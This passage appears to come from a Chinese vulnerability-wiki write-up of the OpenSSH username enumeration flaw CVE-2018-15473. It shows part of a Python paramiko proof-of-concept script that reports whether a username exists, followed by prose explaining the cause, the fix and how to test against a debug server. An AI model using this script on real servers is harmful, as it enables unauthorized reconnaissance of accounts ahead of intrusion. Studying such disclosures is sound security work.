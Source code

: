     sock = socket.socket()
    try:
        sock.connect((args.hostname, args.port))
    except socket.error:
        print '[-] Failed to connect'
        sys.exit(1)

    transport = paramiko.transport.Transport(sock)
    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print '[-] Failed to negotiate SSH transport'
        sys.exit(2)

    try:
        transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print '[*] Invalid username'
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print '[+] Valid username'

这个漏洞之所以存在，是因为服务器在对消息完整解析之前，用户查询了不存在的用户名。想要修复该漏洞也很简单，按攻击逻辑反着来就行了：首先对消息进行完整解析，然后再建立通信连接。

测试漏洞利用PoC的一种方法就是在调试模式下开启OpenSSH服务器：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId24.png)

然后用已存在的有效用户名运行PoC脚本：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId25.png)

在服务器端将会查看到错误提示：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId26.png)

相关错误信息还可以在/var/log/auth.log中找到：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId27.png)

如果无法正确解析消息，会导致客户端跟服务器端之间的通信中断，而且中断时不会收到服务器发送的提示信息：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId28.png)

注意粉红色标记的最后一个数据包（客户端数据包），这里没有后续的蓝色数据包（服务器数据包）。

当PoC脚本以不存在的用户名运行之后：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId29.png)

不会弹出"imcomplete message"错误提示：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId30.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId31.png)
